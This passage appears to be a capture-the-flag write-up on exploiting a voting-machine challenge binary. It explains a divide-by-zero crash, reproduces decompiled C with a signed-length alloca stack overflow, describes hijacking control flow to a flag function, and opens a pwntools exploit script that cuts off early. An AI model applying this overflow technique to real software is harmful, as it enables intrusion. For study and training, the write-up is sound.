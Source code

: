 The bug here is that you can toggle menu options, so toggling an option on and off results in an `item_value` of 0, but with a zero `needs_to_vote` flag. This causes a SIGFPE when calculating `SHIDWORD(v10) /= v18`, which in turn causes the `gui_module` to crash.

Luckily for us, the fallback in this application is an interface that lets us send raw IPC messages into the `ballot_module` pipe - how convenient!

```c=
__int64 __fastcall process_ipc_data(char *data)
{
  void *v1; // rsp
  signed __int64 v2; // rax
  __int64 idx; // rax
  __int64 v4; // [rsp+0h] [rbp-50h]
  int v6[2]; // [rsp+18h] [rbp-38h]
  char *v7; // [rsp+20h] [rbp-30h]
  __int64 v8; // [rsp+28h] [rbp-28h]
  unsigned __int8 v9; // [rsp+36h] [rbp-1Ah]
  unsigned __int8 highest_val; // [rsp+37h] [rbp-19h]
  unsigned __int64 i; // [rsp+38h] [rbp-18h]

  v9 = *data;
  v8 = (char)v9 - 1LL;
  v1 = alloca(16 * (((char)v9 + 15LL) / 0x10uLL)); // [ A ]
  v7 = (char *)&v4;
  if ( v9 > 0x63u )
    v2 = 100LL;
  else
    v2 = (unsigned int)(char)v9;
  *(_QWORD *)v6 = v2;
  memcpy(v7, data + 1, v2); // [ B ]
  highest_val = 0;
  for ( i = 0LL; i < *(_QWORD *)v6; ++i )
  {
    if ( v7[i] > (unsigned int)highest_val )
      highest_val = v7[i];
  }
  LOBYTE(idx) = dword_2040++;
  idx = (unsigned __int8)idx;
  byte_2060[(unsigned __int8)idx] = highest_val;
  return idx;
}
```

Inside `ballot_module`'s `process_ipc_data` function, it performs a stack `alloca()` call based on the first byte of input, which it treats as a signed value. Since it's signed, this is another bug; we can blow out the expectation of where the stack data will be allocated by passing a value greater than 0x7f. Afterwards, our raw payload will be copied to the stack, giving us control of pc (modules have no stack canaries). Obtaining the flag is straightforward from here, since the module provides a `print_part1_flag` function we can jump to, but which is never otherwise called.

```python=
from pwn import *
from pwnlib.util.proc import pid_by_name

context.binary = "./machine"
#context.log_level = "CRITICAL"
context.log_level = "DEBUG"

p = process("./connect.sh", stdin=PTY, stdout=PTY, raw=True)
pemptr = int(p.recvline().strip(), 16)
p.recvuntil("Starting GUI module")

#gdb.attach(sorted(pid_by_name("machine_patched"))[3], gdbscript="""
#b *getch
#c
```